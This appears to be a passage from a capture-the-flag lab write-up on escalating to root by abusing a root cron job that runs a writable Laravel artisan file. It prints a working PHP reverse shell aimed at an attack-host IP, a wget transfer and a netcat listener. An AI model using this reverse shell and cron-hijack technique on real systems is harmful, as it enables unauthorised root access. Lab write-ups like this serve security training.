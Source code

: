 ```bash
ls -la /etc/cron*

total 24
drwxr-xr-x  2 root root 4096 May 10  2022 .
drwxr-xr-x 95 root root 4096 May 10  2022 ..
-rw-r--r--  1 root root  102 Apr  6  2016 .placeholder
-rw-r--r--  1 root root  589 Jul 16  2014 mdadm
-rw-r--r--  1 root root  670 Mar  1  2016 php

```

mdadm looks unusual. Let’s check.

Nothing. Check the system wide crontab:

```bash
cat /etc/crontab

* * * * *       root    php /var/www/laravel/artisan schedule:run >> /dev/null 2>&1
```

We find root is executing php file /var/www/laravel/artisan periodically. Let’s overwrite it with a  php reverse shelland see what happens:

```bash
<?php
$sock=fsockopen("10.10.16.7",9001);
$proc=proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock), $pipes);
?>

```

Let’s write that on our attack host, call it artisan and transfer it over:

```bash
rm artisan
wget http://10.10.16.7:8001/artisan
chmod +x artisan

#on attack host
nc -nlvp 9001
```

We now have root shell:

![image.png]({{ site.baseurl }}/assets/cronos/image%209.png)

If we want a better shell, we can search pentest monkey php reverse shell.